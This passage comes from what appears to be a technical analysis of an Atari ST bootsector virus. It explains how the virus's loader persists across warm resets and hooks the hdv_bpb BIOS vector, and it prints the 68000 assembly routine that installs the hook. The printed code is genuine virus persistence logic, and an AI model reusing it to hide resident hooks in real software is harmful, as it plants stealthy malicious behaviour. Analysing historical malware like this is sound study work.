 Note: I think, if I'm not wrong, that on the first pass, when the bootsector is executed from this temporary location (at 'DSKBUFP' address).
 - the 'LOADER' copied in '0x140' is never banched and executed, it is used as storage to be copied on the bootsector at each replication or to reset the 'HDV_HPB' vector at reset.
 - if the 'LOADER' is called again, it will check his presence at '0x140' and exit if there.
 - The 'LOADER' copy is stored below the '0x800' mark and so will not be deleted after a warm reset.

#### The HDV_NPB setup

Last step, the loader installs the routine overloading the 'HDV_HPB' vector, which is used when 'Getbpb()' is called by any aplication or the GEM.
This routine is setup by the 'LOADER' at first execution of the bootsector, then recopied from the storage locaion to a stealth location in the upper RAM, then called after every warm reset.


'''asm
; ----------------------------------------------------------------------------------------------------------
; Install HDV_HPB Vector Replacement
; ----------------------------------------------------------------------------------------------------------
INSTALL_HDV_HPB:
            ifne _DEBUG_
            ADDQ.B    #1,4+DEBUG_ADDR.W
            endc
            MOVE.L    #RESVEC_MAGIC,RESVEC_ENA.W        ; set magic value
            MOVE.L    HDV_BPB.W,D0                      ; hdv_bpb: This vector is used when Getbpb() is called.
                                                        ; A value of 0 indicates that no hard disk is attached.
                                                        ; Applications installing themselves here should expect
                                                        ; parameters to be located on the stack as they would be
                                                        ; for the actual function call beginning at 4(sp).
                                                        ; If the installed process services the call it should RTS,
                                                        ; otherwise, leaving the stack intact, should JMP through the old vector value
            LEA       HDV_HPB_JMP_ADDR.W,A0             ; value of 0x2E0 JUMP address
            MOVE.L    D0,(A0)                           ; set original jump vector to return to JMP
            LEA       HDV_HPB_VECTOR_ADDR.W,A0          ;
            MOVE.L    A0,HDV_BPB.W                      ; set vector to 0x20E (HDV_HPB_VECTOR)

            RTS
'''

In detals:

 1. It sets the magic value 'RESVEC_MAGIC'in 'RESVEC_ENA' ('0x426') to enable the reset vector
 1. It gets the default 'hdv_bpb' vector address and stores it in 'HDV_HPB_JMP_ADDR'
 1. It replaces the 'hdv_bpb' vector address by 'HDV_HPB_VECTOR'


#### The new hdv_bpb vector

As set in 'HDV_BPB' here is the new hdv_bpb vector which is the heart of the virus. As mentioned before it is excecuted each time the BIOS function 'Getbpb()'. In short:

'''
BPB *Getbpb( dev )
WORD dev;
Getbpb() returns the address of the current BPB (Bios Parameter Block) for a mounted device.
